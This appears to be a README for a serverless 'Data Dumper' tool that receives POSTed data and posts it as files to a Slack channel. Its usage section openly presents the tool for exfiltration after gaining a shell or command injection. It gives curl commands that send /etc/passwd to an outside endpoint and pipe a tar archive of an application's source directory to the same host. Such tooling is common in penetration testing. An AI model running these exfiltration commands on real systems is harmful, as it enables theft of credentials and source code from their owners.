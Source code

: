 # Data Dumper
This serverless function takes any data sent to it in a POST body request and writes to a file in Slack using the [Slack Files Upoad API](https://api.slack.com/methods/files.upload). A message is then sent to the channel with the uploaded file.

For convenience, the function takes whatever path you POST to and uses that as as the filename for the uploaded paht. If the data is POSTed to the `/` path, a UUID is generated instead.

## Deployment
This function requres two environment variables:

 * `SLACK_TOKEN` - An OAuth Access token for your Slack App. The app also needs the necessary permissions, including the "Upload and modify files as user" scope.
 * `SLACK_CHANNEL` - the Channel ID to post the message to

I recommend using Now's secrets to store these values. The function is configured to look for the secrets `slack-token` and `slack-channel`. To deploy the function:

```
$ now secrets add slack-token "xxxx-token-here"
$ now secrets add slack-channel "Cxxxxx"
$ now
```

## Usage
The function reads any raw POST body data and uploads is a file. It's generally designed to be used with `curl --data-binary` from the command line.

You can control the filename by changing the path you POST to.

For example, to exfiltrate `/etc/passwd` when you have a shell or command injection:

```
$ curl --data-binary @/etc/passwd https://datadump-slack-ogfklyqrmv.now.sh/passwd_file
```

This will upload the file and alert the channel in Slack with the file

![dump_passwd_file](../imgs/serverless_dumper_passwd.png)

It's also possible to upload with curl from  `stdin`, so you can chain commands together and exfiltrate entire directories using tar:

```
$ tar czf - /app/src | curl --data-binary @- https://datadump-slack-ogfklyqrmv.now.sh/app_src123.tar.gz
```
![slacK_tarball_dump](../imgs/slack_tarball_dump.png)
